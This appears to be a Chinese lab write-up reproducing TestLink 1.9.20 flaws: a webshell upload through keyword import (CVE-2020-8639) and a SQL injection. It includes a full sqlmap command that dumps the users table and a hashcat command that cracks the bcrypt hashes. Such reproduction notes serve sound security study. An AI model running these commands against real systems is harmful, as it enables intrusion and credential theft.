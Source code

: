 # TestLink漏洞复现笔记

### 文件包含漏洞（CVE-2020-8639）复现



- Teslink提供了使用关键字对测试案例进行分类的可能性。这些关键字可以导出和导入

![](img/keyword.png)

-  点击import

![](img/upload.png)

-  点击Upload file，这时候需要用用到burpsuite拦截请求

![](img/chosefile.png)

- 修改burpsuite的importType和uploadFile部分的内容，发送请求即上传传成功webshell

​	![](img/bp.png)

- 进入容器内可以看到上传成功的webshell

![](img/success.png)

- 然后再页面上访问上传的webshell

  容器内部有读写权限的logs的路径:`/opt/bitnami/testlink/logs`

![](img/web-success.png)

### sql注入漏洞

sqlmap 命令：

```sql
python sqlmap.py -u http://192.168.56.105:8001/lib/ajax/dragdroptreenodes.php --data="doAction=changeParent&oldparentid=41&newparentid=41&nodelist=47%2C45&nodeorder=0&nodeid=47" -p nodeid --cookie="PHPSESSID=rdkc7ut8reeqjn83k595knis66;TESTLINK1920TESTLINK_USER_AUTH_COOKIE=3e573d788ca673889d102839f070c97e2326ff083197d1820c1e983f4d69f1c5" --dump -D bitnami_testlink -T users

```

- --u 目标url

- --data 要通过post请求发送的数据字符串

- -p 可测试的参数

- --dump 转储的DBMS数据库表条目

- -D 数据库名称

- -T 表明

sqlmap扫描出的结果:

![](img/sqlmap-table.png)

能够获得所有的用户的名称、加密后的密码和cookie值，密码是用bcrypt方式加密的。

- 使用hashcat破解：` ./hashcat64.bin  --force -a 0 -m 3200 example500.hash example.dict`

  - -a 指定要破解的模式 ，‘-a 0‘字典攻击
  - -m 要破解的hash类型，3200是值的bcrypt加密类型，更多hash类型在[hashcat-Wiki]( https://hashcat.net/wiki/doku.php?id=hashcat )
  - --force 忽略破解过程中的警告信息，跑单条hash可能需要加上此选项
  - --show 现实已经破解的hash以及明文

  ![](img/hashcat.png)

#### hashcat使用

- sdk：软件开发工具包，SDK是一些被软件工程师用于为特定的软件包、软件框架、硬件平台、操作系统等创建应用软件的**开发工具的集合**。它可以简单的为某个程序设计语言提供应用程序接口API的一些文件，但也可能包括能与某种嵌入式系统通讯的复杂的硬件。SDK还经常包括示例代码、支持性的技术注解或者其他的为基本参考资料澄清疑点的支持文档
- OpenCL：（开放运算语言） 是第一个面向异构系统通用目的并行编程的开放式、免费标准，也是一个统一的编程环境，便于软件开发人员为高性能计算服务器、桌面计算系统、手持设备编写高效轻便的代码 

  

### 其他

[清理Docker的container，image与volume ]( https://note.qidong.name/2017/06/26/docker-clean/ )



## 参考

[Testlink 1.9.20: Unrestricted file upload and SQL injection]( https://ackcent.com/blog/testlink-1.9.20-unrestricted-file-upload-and-sql-injection/ )

[bcrypt加密方式]( https://www.jianshu.com/p/2b131bfc2f10 )

[hashcat-bcrypt-example]( https://gist.github.com/roycewilliams/4aa6a6d8d4822a02dcd23f0c907e6828 )

[hashcat使用教程]( https://xz.aliyun.com/t/4008#toc-17 )

[爆破/字典/掩码攻击]( https://www.anquanke.com/post/id/86211 )

[InfoSexy：如何在Ubuntu 18.04中使用Hashcat破解密码]( https://www.alexanderjsingleton.com/infosexy-how-to-use-hashcat-to-crack-passwords-in-ubuntu-18-04/ )

[下载OpenCL]( https://www.mql5.com/zh/articles/690 )

[Ubantu下安装hashcat]( https://www.freebuf.com/column/174074.html )

[解压并重命名]( https://www.cnblogs.com/bootoo/p/4678849.html )


